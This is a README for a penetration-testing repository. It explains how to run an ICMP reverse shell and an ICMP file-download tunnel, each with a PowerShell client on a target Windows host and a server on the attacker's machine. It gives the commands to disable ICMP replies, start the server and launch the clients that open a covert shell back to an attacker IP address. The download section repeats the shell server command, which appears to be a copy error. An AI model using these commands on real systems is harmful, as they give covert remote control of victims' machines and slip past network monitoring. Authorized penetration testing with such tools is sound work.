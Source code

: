# Tunneling
ICMP and DNS tunneling to use during penetration testing

# ICMP Shell tunneling

## Description 

icmp_shell is a simple reverse ICMP shell with a windows client and a POSIX compatible server

The client runs on the target Windows machine, it is written in powershell by [samratashok](https://github.com/samratashok/nishang) and the server can run on any platform on the attacker machine. It has been ported to Python by [inquish](https://github.com/inquisb/icmpsh)

## Usage

###Running the server

When running the server, don't forget to disable ICMP replies by the OS. For example:

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

Then simply do :

`/icmpsh_shell_serv.py <source IP address> <destination IP address>`

###Running the client

`Invoke-PowerShellIcmp -IPAddress <destination IP address>`


# ICMP Download tunneling

## Description 

icmp_download is a simple reverse ICMP download with a windows client and a POSIX compatible server. It allows you to download file using ICMP from your server to the windows client

The client runs on the target Windows machine and the server can run on any platform on the attacker machine.

## Usage

###Running the server

Again, don't forget to disable ICMP replies by the OS. For example:

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

Then simply do :

`/icmpsh_shell_serv.py <source IP address> <destination IP address>`

###Running the client

`Icmp_Download -IPAddress <destination IP address> -filename <filename>`
